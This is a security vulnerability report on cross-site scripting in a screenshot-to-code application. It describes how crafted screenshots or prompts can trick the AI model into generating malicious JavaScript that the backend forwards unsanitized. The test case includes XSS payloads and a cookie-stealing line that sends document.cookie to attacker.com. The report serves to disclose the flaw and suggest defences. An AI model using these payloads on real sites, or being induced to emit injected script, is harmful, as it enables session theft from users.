 * Vulnerability Name: Cross-Site Scripting (XSS) in AI-Generated Code

* Description:
    1. An attacker uploads a screenshot or provides input via video or text prompt to the application.
    2. This input is sent to the backend and used to create a prompt for the AI model (GPT-4o, Claude Sonnet 3.7, etc.) in `backend\routes\generate_code.py` and `backend\prompts\__init__.py`. The system prompts in `backend\prompts\screenshot_system_prompts.py` instruct the AI to generate HTML and Javascript code.
    3. The prompt instructs the AI model to generate HTML and Javascript code that replicates the design in the screenshot or fulfills the text prompt. Mock responses in `backend\mock_llm.py` also demonstrate the generation of HTML code by the AI model.
    4. A malicious attacker crafts a screenshot or input prompt that is designed to trick the AI model into generating HTML or Javascript code containing malicious scripts. For example, the attacker can include elements in the screenshot that resemble input fields or buttons with text that could be interpreted as instructions to include Javascript code (e.g., a button labeled `<script>alert('XSS')</script>`).
    5. The backend, upon receiving the generated code from the AI model in `backend\routes\generate_code.py`, uses `extract_html_content` from `backend\codegen\utils.py` to extract the HTML content. This function, as confirmed by tests in `backend\codegen\test_utils.py`, only uses a regular expression to find content within `<html>` tags and does not perform any sanitization or encoding of the generated code.
    6. The backend then sends this extracted code to the frontend via a websocket message of type `setCode` in `backend\routes\generate_code.py`.
    7. If the frontend directly renders this received HTML code within the user's browser without proper sanitization, any malicious Javascript code generated by the AI will be executed. This leads to Cross-Site Scripting (XSS).

* Impact:
    Successful exploitation of this vulnerability allows an attacker to execute arbitrary Javascript code in the victim's browser. This can lead to various malicious activities, including:
    - Stealing user session cookies, allowing account hijacking.
    - Defacing the web page presented to the user.
    - Redirecting the user to malicious websites.
    - Performing actions on behalf of the user without their consent.
    - Harvesting sensitive information displayed on the page.

* Vulnerability Rank: High

* Currently Implemented Mitigations:
    - None: The provided code does not include any explicit sanitization or encoding of the AI-generated HTML code before sending it to the frontend. The `extract_html_content` function in `backend\codegen\utils.py` only extracts HTML content and does not provide any security-related processing.

* Missing Mitigations:
    - Input Sanitization: Implement sanitization of the user-provided screenshot or input prompts to prevent injection of malicious instructions that could lead to malicious code generation by the AI.
    - Output Sanitization/Encoding: Before rendering the AI-generated HTML code in the frontend, it is crucial to sanitize or encode it to neutralize any potentially malicious Javascript code. This can be done using a library specifically designed for XSS prevention, which escapes or removes Javascript code and other potentially harmful HTML elements.
    - Content Security Policy (CSP): Implementing a Content Security Policy (CSP) can significantly reduce the impact of XSS attacks by controlling the sources from which the browser is allowed to load resources. This can help prevent the execution of inline scripts injected by an attacker.

* Preconditions:
    - The application must be running and accessible to the attacker.
    - The attacker needs to be able to upload a screenshot, provide a video, or text prompt input to the application.
    - The frontend application must be rendering the `setCode` websocket messages as HTML content in the browser without sanitization.

* Source Code Analysis:
    1. `backend\routes\generate_code.py`:
        - The `@router.websocket("/generate-code")` decorator defines the websocket endpoint that handles code generation requests.
        - `params: dict[str, str] = await websocket.receive_json()` receives the input from the frontend, including the screenshot (as a data URL in `params["image"]`) and other parameters.
        - `prompt_messages, image_cache = await create_prompt(params, stack, input_mode)` creates the prompt for the AI model based on the user input. The system prompts used are defined in `backend\prompts\screenshot_system_prompts.py` and explicitly instruct the AI to generate HTML and Javascript code.
        - `completions = await asyncio.gather(*tasks, return_exceptions=True)` calls the AI models (GPT-4o, Claude) to generate code based on the prompt.
        - `completions = [extract_html_content(completion) for completion in completions]` processes the generated code using `extract_html_content`.

    ```python
    # backend\codegen\utils.py
    import re

    def extract_html_content(text: str):
        # Use regex to find content within <html> tags and include the tags themselves
        match = re.search(r"(<html.*?>.*?</html>)", text, re.DOTALL)
        if match:
            return match.group(1)
        else:
            # Otherwise, we just send the previous HTML over
            print(
                "[HTML Extraction] No <html> tags found in the generated content: " + text
            )
            return text
    ```
        - As shown above and confirmed by tests in `backend\codegen\test_utils.py`, `extract_html_content` simply extracts the HTML tags using a regular expression without any sanitization.
        - `await send_message("setCode", updated_html, index)` sends the extracted HTML code to the frontend via the websocket. The `setCode` message type indicates that this content is intended to be rendered as code in the frontend.

    2. `backend\prompts\__init__.py` and `backend\prompts\screenshot_system_prompts.py`:
        - `assemble_prompt` and `assemble_imported_code_prompt` functions construct prompts for the AI models.
        - The system prompts in `backend\prompts\screenshot_system_prompts.py` (e.g., `HTML_TAILWIND_SYSTEM_PROMPT`, `HTML_CSS_SYSTEM_PROMPT`, etc.) explicitly instruct the AI to generate HTML and Javascript code based on the input image or text.  These prompts prioritize visual fidelity and functionality over security, lacking any instructions to sanitize or avoid generating potentially harmful code.
        - There is no logic in the prompt creation process to prevent the AI from generating malicious Javascript code if the input is crafted to induce such output.

    3. `backend\mock_llm.py`:
        - This file provides mock responses for the LLM, used for testing or development.  The mock responses, such as `APPLE_MOCK_CODE`, `NYTIMES_MOCK_CODE`, `NO_IMAGES_NYTIMES_MOCK_CODE`, `MORTGAGE_CALCULATOR_VIDEO_PROMPT_MOCK`, `GOOGLE_FORM_VIDEO_PROMPT_MOCK`, and `TALLY_FORM_VIDEO_PROMPT_MOCK`, are all HTML code snippets.
        - These mock responses confirm that the intended behavior of the application is to generate and handle HTML code, which, if not properly sanitized, can lead to XSS vulnerabilities as described.

* Security Test Case:
    1. Open the application in a web browser (e.g., `http://localhost:5173`).
    2. Prepare a screenshot that is designed to trigger malicious code generation. For example, create a simple image that looks like a button with the text `<img src=x onerror=alert('XSS')>` on it.  Alternatively, use a text prompt like  `<button onclick="alert('XSS')">Click me</button>`.
    3. In the application, use the "Screenshot to Code" functionality and upload the crafted screenshot or use the text prompt. Select any supported stack (e.g., HTML + Tailwind).
    4. Observe the generated code in the application's output. Check if the generated code contains the injected malicious Javascript (e.g., `<img src=x onerror=alert('XSS')>` or `<button onclick="alert('XSS')">Click me</button>`).
    5. If the frontend renders the generated code directly, the Javascript code `alert('XSS')` will be executed in the browser. A pop-up box with "XSS" will appear, demonstrating the Cross-Site Scripting vulnerability.
    6. To further verify, try injecting code that steals cookies or redirects to a malicious site. For example, use an image with alt text `<script>window.location.href='http://attacker.com/cookie-stealer?cookie='+document.cookie;</script>` or a text prompt that generates similar Javascript code.
    7. If successful, the user's browser will be redirected to `http://attacker.com/cookie-stealer` (or the attacker's chosen malicious action will be performed), confirming the XSS vulnerability and its potential impact.
